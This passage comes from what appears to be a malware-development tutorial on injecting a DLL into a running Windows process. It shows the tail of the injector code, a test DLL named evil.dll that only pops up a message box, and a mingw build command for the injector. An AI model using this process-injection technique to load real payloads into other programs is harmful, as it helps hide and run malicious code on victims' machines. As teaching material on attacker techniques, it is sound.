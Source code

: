 ```cpp
  NULL);
  CloseHandle(ph);

  return 0;
}
```

As usually, for simplicity I create simple DLL with `meow from evil.dll!` messagebox (`evil.c`):      

```cpp
/*
evil.cpp
simple DLL for DLL inject to process
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow from evil.dll!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

### demo 2

Ok, let's go to demonstration our injection.     

Compile it:      

```bash
x86_64-w64-mingw32-g++ -O2 hack2.cpp -o hack2.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive -lpsapi -lshlwapi
```
